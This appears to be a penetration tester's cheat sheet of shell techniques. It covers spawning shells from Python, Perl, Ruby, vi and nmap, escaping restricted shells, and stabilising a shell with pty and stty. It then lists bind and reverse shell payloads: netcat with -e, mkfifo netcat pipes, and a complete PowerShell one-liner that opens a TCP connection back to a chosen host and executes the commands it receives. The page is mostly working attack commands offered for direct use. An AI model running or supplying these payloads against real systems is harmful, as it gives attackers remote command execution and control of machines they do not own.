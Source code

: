 # Shell Spawning

ALSO: /usr/bin/script -qc /bin/bash /dev/null
-  ``` python -c 'import pty; pty.spawn("/bin/sh")'```
    
-   ```echo os.system('/bin/bash')```
    
-   ```/bin/sh -i```
    
-```   perl —e 'exec "/bin/sh";'```
    
-   ```perl: exec "/bin/sh";```
    
-   ```ruby: exec "/bin/sh"```
    
-  ``` lua: os.execute('/bin/sh')```
    
-   ```
-   (From within IRB)
    
    exec "/bin/sh"```
    
-   (```From within vi)
    
    :!bash```
    
-   ```(From within vi)
    
    :set shell=/bin/bash:shell```
    
-   ```(From within nmap)
    
    !sh```
    

Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.

# Making the shell interactive: 

1.  ```python -c 'import pty;pty.spawn("/bin/bash")'```
2.  ```export TERM=xterm``` - this will give us access to term commands such as 'clear'.
3.  background the current shell using CTRL+Z, then type: ```stty raw -echo; fg```  -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

**rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.**


## Changing the terminal size of columns and rows: 

```
stty -a 

stty cols 999
stty rows 999
```



# Shell payloads

### Bind shell: 
```nc -nvlp {IP} {PORT} -e /bin/bash```

### Reverse shell: 
```nc {IP} {PORT} -e /bin/bash```


### Where the above won't work: 
### Bind shell:
```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```

### Reverse shell
 
```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```


### Good one liner POWERSHELL reverse shell: 
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```